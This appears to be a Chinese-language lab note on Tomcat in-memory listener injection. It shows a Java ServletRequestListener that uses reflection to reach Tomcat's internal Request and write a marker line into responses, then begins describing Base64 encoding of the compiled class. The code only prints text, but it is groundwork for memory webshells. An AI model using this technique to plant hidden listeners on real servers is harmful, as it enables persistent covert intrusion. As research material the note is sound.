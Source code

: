 - 测试环境: tomcat:8 docker (Tomcat 8.5.100)

---

#### 制作Listener

实现一个 `ServletRequestListener` 重写其中的 `requestDestroyed` 方法

通过 ServletRequestEvent 对象获取当前的 ServletRequest，并将其强制转换为 RequestFacade 类型。

接着，使用反射机制获取 RequestFacade 类中的私有字段 request。通过调用 Field 对象的 setAccessible(true) 方法，使得这个私有字段可以被访问。然后，通过 Field 对象的 get 方法获取实际的 Request 对象

获取到 Request 对象后，调用其 `getResponse().getWriter().println()` 方法，在响应中写入一行文本

```java
package com.summer233;

import java.lang.reflect.Field;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;

public class BasicListener implements ServletRequestListener {
   public BasicListener() {
   }

   public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
      try {
         RequestFacade request = (RequestFacade) servletRequestEvent.getServletRequest();
         Field f = request.getClass().getDeclaredField("request");
         f.setAccessible(true);
         Request req = (Request) f.get(request);
         req.getResponse().getWriter().println("\nBasicListener requestDestroyed Injected");
      } catch (Exception var5) {
         var5.printStackTrace();
      }

   }

   public void requestInitialized(ServletRequestEvent servletRequestEvent) {
   }
}

```

---

#### 编译 Listener 然后将 class 文件转换为 Base64 字符串

直接 `mvn clean package` 编译项目然后在 `target/classes` 中找到该  Listener 的 class 文件

![image-20241009154044903](http://cdn.ayusummer233.top/DailyNotes/202410091540059.png)
